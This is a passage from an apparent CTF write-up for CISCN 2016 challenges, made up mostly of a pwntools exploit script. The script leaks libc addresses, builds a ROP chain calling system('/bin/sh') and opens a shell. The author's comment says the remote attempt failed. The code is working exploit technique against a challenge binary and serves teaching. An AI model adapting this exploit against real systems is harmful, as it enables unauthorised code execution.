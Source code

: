 ```
	stack_addr=addr-420
	dest_addr=stack_addr+65*4
	print 'modify base addr to: '+hex(c_uint32(dest_addr).value)

	for x in range(9):
		p.sendline('w')
	# write into stack[2]
	p.sendline(str(dest_addr))
	# copy into stack[1]
	p.sendline('+')

	for x in range(17):
		p.sendline('.')
	p.sendline('w')

	# now values[index] should point to __libc_start_main's address prefix
	# first leak libc_prefix
	p.sendline('p')
	p.recvuntil('Value: ')
	libc_prefix=p.recvline().strip()
	libc_prefix=int(libc_prefix,10)
	print 'leak libc prefix: '+hex(c_uint32(libc_prefix).value)

	# now leak libc other address
	p.sendline('.')
	p.sendline('p')
	p.recvuntil('Value: ')
	libc_addr=p.recvline().strip()
	libc_addr=int(libc_addr,10)
	print 'leak libc addr: '+hex(c_uint32(libc_addr).value)

	libc_addr=libc_addr-245
	# I used libc-database to search the version of glibc on the remote once but I get nothing.
	# So I failed to get shell from remote.
	sys_addr=libc_addr-0x21a50+0x414f0
	binsh_addr=libc_addr-0x21a50+0x161160

	#################################################################################

	# write pop gadget addr into stack 
	w(17,pop_rdi_ret,19)
	w(17,0,18)

	# write /bin/sh addr to target addr
	w(16,binsh_addr,17)
	w(15,libc_prefix,16)

	# write sys addr to target addr
	w(14,sys_addr,15)
	w(13,libc_prefix,14)

	# gdb.attach(p,'b *0x400987')
	p.sendline('q')
	# get shell
	p.interactive()

main()

```


[1]: /images/ciscnctf_2016_careful&amp;cis2_writeup0.png
[2]: /images/ciscnctf_2016_careful&amp;cis2_writeup1.png
[3]: /images/ciscnctf_2016_careful&amp;cis2_writeup2.png
[4]: /images/ciscnctf_2016_careful&amp;cis2_writeup3.png
[5]: /images/ciscnctf_2016_careful&amp;cis2_writeup4.png

